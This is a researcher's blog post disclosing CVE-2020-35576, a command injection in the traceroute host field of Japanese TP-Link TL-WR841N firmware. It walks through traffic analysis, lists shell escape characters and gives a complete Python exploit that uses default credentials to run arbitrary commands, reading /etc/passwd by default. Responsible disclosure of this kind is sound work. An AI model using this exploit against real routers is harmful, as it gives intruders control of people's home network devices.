 ```yaml
---
layout: post
title: TP-Link TL-WR841N Command Injection Exploit (CVE-2020-35576)
published: true
categories: [Cve, Web, Misc]
excerpt: I was playing with my <s>pet</s> home router, when I noticed that a parameter seemed to be executed by some form of system(). I tried to escape it and got my first CVE!
---
```


I was playing with my <s>pet</s> home router, when I noticed that a parameter seemed to be executed by some form of system(). I tried to escape it and got my first CVE!

---

## CVE-2020-35576

---


### Affected Firmware 
TL-WR841N(JP)_V13_161028 <br />
<=0.9.1 4.0 v0188.0 Build 161028 Rel.66845n (latest at time of report)

CVSS Base Score: 9.9 | AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H

### Introduction

So, a quick introduction to this router. It was released in 2016 and has been a very popular and cheap ($15) router, ranking top in [Amazon JP](https://amzn.to/2MtULdM) during that year and is still [ranked 37](https://www.amazon.co.jp/gp/bestsellers/computers/2151996051) at time of report.

Although the American release had its latest patch in 2020-11, Japan was still lagging behind by 3 years. It is impossible to officially update the Japanese release of the TL-WR841N router with any overseas patch as the hardware had some region locks. It's also interesting to note that there is no way of changing the language for this router, so people who bought it in Japan are stuck with the Japanese interface.

### Bug Discovery via Traffic Analysis

I was playing around with the features when I noticed a system diagnostic tool that caught my attention. Ping and Traceroute features are often vulnerable and you can find many CVEs for them if you deal with IoT devices like Webcams and Smart Speakers. The challenge would be to escape the context into the system. 

I noticed that when you use the Traceroute feature, a request was sent to the router:

```
[TRACEROUTE_DIAG#0,0,0,0,0,0#0,0,0,0,0,0]0,8
maxHopCount=20
timeout=50
numberOfTries=1
host=127.0.0.1
dataBlockSize=64
X_TP_ConnName=ewan_ipoe_d
diagnosticsState=Requested
X_TP_HopSeq=0
```

This would return an `[error]0` if it was successful, and a non-zero error code if it was not. 

Following which, the client browser would send this request initiating the Traceroute function on the router:

```
[ACT_OP_TRACERT#0,0,0,0,0,0#0,0,0,0,0,0]0,0
```

The router would then reply `[error]0` since there are no errors; to which the client browser would initiate the result request by sending the following payload:

```
[TRACEROUTE_DIAG#0,0,0,0,0,0#0,0,0,0,0,0]0,3
diagnosticsState
X_TP_HopSeq
X_TP_Result
```

And then the router would reply with the following:

```
[0,0,0,0,0,0]0
diagnosticsState=Requested
X_TP_HopSeq=0
X_TP_Result={results}
[error]0
```

All of these requests are essentially user inputs being sent to the router. So we have control over 3 of the requests during the Traceroute call.

Given that we cannot know how the backend works without reversing the firmware, I resorted to using my homemade command injection fuzzer based on popular command injection escape symbols, such as these characters:

```
|  ; & $ > < ` \ !
```

Combining them with context escapes (`"` and/or `'`) with the assumption that the function call for this takes user input in the form of `system("command")`, I discovered that the `host` value in the first request of the Traceroute feature was vulnerable.

Hence I moved on to writing a functionable exploit code which I submitted to the Vendor as additional information. 

### The Exploit

I found that the traceroute command could be escaped with double quotes and a backtick, like this: 
```
"`payload
```
We can mirror the quotes and backtick to prevent syntax error, but it doesn't matter.

This is the full exploit script that should work with the default router configuration. Run the following code with your payload as argument to achieve arbitrary code execution using basic UNIX commands. Be warned that if you do an `rm -rf` or overwrite certain files, you will brick your router permanently and a hard reset will not restore it. You'll have to [buy a new one](https://amzn.to/2MtULdM).

**tplink-CVE-2020-35576.py**
```python
# Author: Koh You Liang (Isopach)
# Exploit Title: TP-Link TL-WR841N OS Command Injection Exploit
# Date: 2020-12-13
# Vendor Homepage: https://www.tp-link.com/
# Software Link: https://www.tp-link.com/jp/support/download/tl-wr841n/v13/#Firmware
# Version: TL-WR841N 0.9.1 4.0
# Tested on: Windows 10, macOS Mojave, Ubuntu 20.04.1 LTS
# CVE: CVE-2020-35576

import requests
import sys
import time

try:
    _ = sys.argv[2]
    payload = ' '.join(sys.argv[1:])
except IndexError:
    try:
        payload = sys.argv[1]
    except IndexError:
        print("[*] Command not specified, using the default `cat etc/passwd`")
        payload = 'cat etc/passwd'

# Default credentials is admin:admin - replace with your own
cookies = {
    'Authorization': 'Basic YWRtaW46YWRtaW4='
}

headers = {
    'Host': '192.168.0.1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'text/plain',
    'Content-Length': '197',
    'Origin': 'http://192.168.0.1',
    'Connection': 'close',
    'Referer': 'http://192.168.0.1/mainFrame.htm',
}

data1 = \
'''[TRACEROUTE_DIAG#0,0,0,0,0,0#0,0,0,0,0,0]0,8\r\nmaxHopCount=20\r\ntimeout=50\r\nnumberOfTries=1\r\nhost="`{}`"\r\ndataBlockSize=64\r\nX_TP_ConnName=ewan_ipoe_d\r\ndiagnosticsState=Requested\r\nX_TP_HopSeq=0\r\n'''.format(payload)
response1 = requests.post('http://192.168.0.1/cgi?2', headers=headers, cookies=cookies, data=data1, verify=False)
print('[+] Sending payload...')

try:
    response1.text.splitlines()[0]
except IndexError:
    sys.exit('[-] Cannot get response. Please check your cookie.')
    
if response1.text.splitlines()[0] != '[error]0':
    sys.exit('[*] Router/Firmware is not vulnerable.')

data2 = '[ACT_OP_TRACERT#0,0,0,0,0,0#0,0,0,0,0,0]0,0\r\n'
response2 = requests.post('http://192.168.0.1/cgi?7', headers=headers, cookies=cookies, data=data2, verify=False)
print('[+] Receiving response from router...')
time.sleep(0.8) # Buffer time for traceroute to succeed

data3 = '''[TRACEROUTE_DIAG#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\ndiagnosticsState\r\nX_TP_HopSeq\r\nX_TP_Result\r\n'''
response3 = requests.post('http://192.168.0.1/cgi?1', headers=headers, cookies=cookies, data=data3, verify=False)


if '=:' in response3.text.splitlines()[3]:
    print('[-] Command not supported.')
else:
    print('[+] Exploit successful!')
    for line_number, line in enumerate(response3.text.splitlines()):        
        try:
            if line_number == 3:
                print(line[12:])
            if line_number > 3 and line != '[error]0':
                print(line)
                if 'not known' in line:
                    break
        except IndexError:
            break


```


### Afterthoughts
They say that the first one is always the hardest and I agree. I never thought I'd ever get a CVE but as my friend said to me that if I stopped playing games for 1 week I'd easily get one. And so I did as he said and got it after a day of tinkering. 

I also would like to thank my company, [3-shake](https://3-shake.com) for letting me do whatever I want during work which resulted in me finding stuff like this.


### Timeline    
TP-Link replied faster than most bug bounty programs that I have worked with and they published an updated firmware very quickly. I had an enjoyable time working with them.

**2020-12-14 19:27:15 JST** - Reported to Vendor (security\[at\]tp-link.com)    
**2020-12-15 18:33:09 JST** - Vendor acknowledgement and reply     
**2020-12-15 22:11:31 JST** - CVE Requested from Mitre    
**2020-12-18 20:33:37 JST** - Sent additional details about impact to Vendor    
**2020-12-20 14:31:57 JST** - CVE-2020-35576 assigned by Mitre       
**2020-12-21 12:10:57 JST** - Informed Vendor about CVE assignment and attack scenario    
**2020-12-21 14:57:08 JST** - Vendor replied saying they will release a new firmware    
**2020-12-21 15:29:10 JST** - Acknowledgement and asked for estimate of release date    
**2020-12-31 18:57:06 JST** - Vendor sent me beta firmware     
**2021-01-02 11:36:58 JST** - Replied to Vendor confirming fixes           
**2021-01-13 12:39:06 JST** - Vendor released updated firmware    
**2021-01-13 13:28:00 JST** - Blog post published                   

### Links 
- [CVE-2020-35576](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35576)
- [TL-WR841N V13 Firmware](https://www.tp-link.com/jp/support/download/tl-wr841n/v13/#Firmware)

***